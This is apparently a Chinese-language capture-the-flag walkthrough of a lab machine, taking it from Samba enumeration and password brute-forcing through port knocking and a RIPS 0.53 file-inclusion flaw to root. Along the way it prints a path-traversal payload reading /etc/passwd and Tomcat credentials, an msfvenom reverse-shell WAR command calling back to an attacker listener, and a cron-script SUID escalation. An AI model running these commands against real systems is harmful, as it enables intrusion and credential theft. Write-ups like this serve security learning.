# Recon

这台机器开放了`dns、samba、mail`相关服务和`8080/tcp`这一个web



## smb

机器开放了samba服务，通过`enum4linux -r`枚举用户名



整理成用户名字典，爆破samba，得到`qiu:password`



连接samba，其中共享了三个目录和四个文件



使用`recurse on`开启递归和`prompt off`关闭文件下载确认，然后`mget *`递归下载所有文件





`.private/opensesame/config`是`port knocking`配置文件，可以开放和关闭`80/tcp`和`22/tcp`



其它文件不包含什么有效信息



## 8080/tcp

8080端口存在tomcat后台，不存在弱口令，爆破无果



## Port knocking

根据配置文件中的`Sequence`序列进行`port knocking`，再次扫描开放了80和22



## 80/http

对80端口目录扫描



`/robots.txt`暴露的`/nomercy/`路径是一个`RIPS`，版本为`0.53`



`searchsploit rips`存在多个本地文件包含漏洞，poc如下

`/rips/windows/code.php?file=../../../../../../etc/passwd`

包含`/etc/tomcat7/tomcat-users.xml`，得到basic密码



# shell as tomcat7 by war-deploy

使用`thisisasuperduperlonguser:heartbreakisinevitable`登录tomcat后台

`msfvenom -p java/shell_reverse_tcp lhost=192.168.2.100 lport=443 -f war > shell.war`

生成反弹shell war包进行部署





# shell as fluffy by tomcat-users.xml

在`tomcat-users.xml`中还泄露了另一对凭证`fluffy:freakishfluffybunny`

直接su切换，此处su前的用户是`qiu`，在samba爆破时已经得到过`qiu:password`



# shell as root by crontab

在`/home/flyffy/.private/secretss`下发现`timeclock`文件，是一个shell脚本用于向`/var/www/html/time`写入当前系统时间

在低权限视角下看不到计划任务，脚本功能的动态实现大概率依赖于`crontab`

在`timeclock`脚本中写入`chmod +s /bin/bash`，使用`watch -n 1 ls -la /bin/bash`，当权限位增加`s`时执行`/bin/bash -p`提权



提权后查看`/var/spool/cron/crontabs/root`发现两条计划任务


